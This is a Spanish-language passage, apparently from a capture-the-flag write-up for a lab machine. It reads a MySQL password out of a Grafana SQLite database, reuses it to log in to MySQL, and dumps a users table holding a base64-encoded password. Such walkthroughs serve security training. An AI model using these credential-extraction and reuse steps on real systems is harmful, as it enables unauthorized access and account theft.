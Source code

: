 ```
annotation_tag              quota                     
api_key                     server_lock               
cache_data                  session                   
dashboard                   short_url                 
dashboard_acl               star                      
dashboard_provisioning      tag                       
dashboard_snapshot          team                      
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
library_element             user_auth                 
library_element_connection  user_auth_token           
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-28 20:34:17|0|{}|1|uKewFgM4z
```
Vemos que hay una contraseña, la cual se podría utilizar para conectarnos mediante MySQL como el usuario "grafana"

```
$ mysql -h10.10.11.183 -ugrafana -pdontStandSoCloseToMe63221!

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0,182 sec)

MySQL [(none)]> use whackywidget;
Database changed
MySQL [whackywidget]> 
```
Si listamos las tablas de esta base de datos, veremos que hay una llamada "users", la cual contiene un usuario llamado "developer" y una contraseña que parece estar codificada en base64

```
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0,179 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```
